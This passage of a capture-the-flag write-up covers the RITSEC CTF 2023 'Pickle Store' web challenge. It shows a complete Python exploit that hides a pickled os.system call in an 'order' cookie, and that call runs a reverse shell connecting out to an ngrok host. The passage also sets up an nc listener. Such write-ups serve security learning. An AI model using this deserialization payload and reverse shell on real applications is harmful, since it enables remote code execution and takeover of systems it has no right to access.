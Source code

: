 ```shell
┌[siunam♥earth]-(~/ctf/RITSEC-CTF-2023/Web/Pickle-Store)-[2023.04.02|12:48:25(HKT)]
└> python3 solve.py
[*] Payload: gASVHgAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjANpZCCUhZRSlC4=
[*] Request result:
<!DOCTYPE html>
<head>
  <title>Pickle Store</title>
  <link rel="stylesheet" href="/static/style.css">
</head>
<body>
  <h1>Here's your order!</h1>
  <h2>0</h2>
  <a class='button' href='/'>New Order</a>
</body>
```

Umm... `0`??

It seems like the `/order` doesn't reflect (display) our payload's result...

Hmm... Let's get a shell then.

**After some trial and error, the Python3 reverse shell worked:** (From [revshells.com](https://www.revshells.com/))
```py
#!/usr/bin/env python3
import pickle, os, base64
import requests

class RCE(object):
    def __reduce__(self):
        return (os.system,('''python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("0.tcp.ap.ngrok.io",11713));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/bash")' ''',))

def main():
    pickledPayload = base64.b64encode(pickle.dumps(RCE())).decode()
    print(f'[*] Payload: {pickledPayload}')

    URL = 'https://pickles-web.challenges.ctf.ritsec.club/order'
    cookie = {
        'order': pickledPayload
    }

    print('[*] Request result:')
    orderRequestResult = requests.get(URL, cookies=cookie)
    print(orderRequestResult.text)

if __name__ == '__main__':
    main()
```

**Setup a `nc` listener:**
```shell
┌[siunam♥earth]-(~/ctf/RITSEC-CTF-2023)-[2023.04.02|13:13:43(HKT)]
└> nc -lnvp 4444
listening on [any] 4444 ...
```
